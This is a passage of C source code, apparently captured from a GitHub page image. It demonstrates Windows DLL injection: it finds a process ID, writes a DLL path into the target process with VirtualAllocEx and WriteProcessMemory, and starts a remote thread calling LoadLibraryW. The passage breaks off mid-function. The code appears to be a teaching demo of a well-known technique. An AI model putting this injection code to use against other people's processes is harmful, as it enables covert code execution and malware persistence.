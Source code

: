 ~~~c
			CloseHandle(h);
#ifdef _DEBUG
			printf("[+] PID found: %ld\n", pid);
#endif
			return pid;
		}
	} while (Process32Next(h, &procSnapshot));

	CloseHandle(h);
	return 0;
}

DWORD demoCreateRemoteThreadW(PCWSTR pszLibFile, DWORD dwProcessId)
{
	// Calculate the number of bytes needed for the DLL's pathname
	DWORD dwSize = (lstrlenW(pszLibFile) + 1) * sizeof(wchar_t);

	// Get process handle passing in the process ID
	HANDLE hProcess = OpenProcess(
		PROCESS_QUERY_INFORMATION |
		PROCESS_CREATE_THREAD |
		PROCESS_VM_OPERATION |
		PROCESS_VM_WRITE,
		FALSE, dwProcessId);
	if (hProcess == NULL)
	{
		printf(TEXT("[-] Error: Could not open process for PID (%d).\n"), dwProcessId);
		return(1);
	}

	// Allocate space in the remote process for the pathname
	LPVOID pszLibFileRemote = (PWSTR)VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT, PAGE_READWRITE);
	if (pszLibFileRemote == NULL)
	{
		printf(TEXT("[-] Error: Could not allocate memory inside PID (%d).\n"), dwProcessId);
		return(1);
	}

	// Copy the DLL's pathname to the remote process address space
	DWORD n = WriteProcessMemory(hProcess, pszLibFileRemote, (PVOID)pszLibFile, dwSize, NULL);
	if (n == 0)
	{
		printf(TEXT("[-] Error: Could not write any bytes into the PID [%d] address space.\n"), dwProcessId);
		return(1);
	}

	// Get the real address of LoadLibraryW in Kernel32.dll
	PTHREAD_START_ROUTINE pfnThreadRtn = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
	if (pfnThreadRtn == NULL)
	{
		printf(TEXT("[-] Error: Could not find LoadLibraryW function inside kernel32.dll library.\n"));
		return(1);
	}

	// Create a remote thread that calls LoadLibraryW(DLLPathname)
	HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pfnThreadRtn, pszLibFileRemote, 0, NULL);
	if (hThread == NULL)
	{
~~~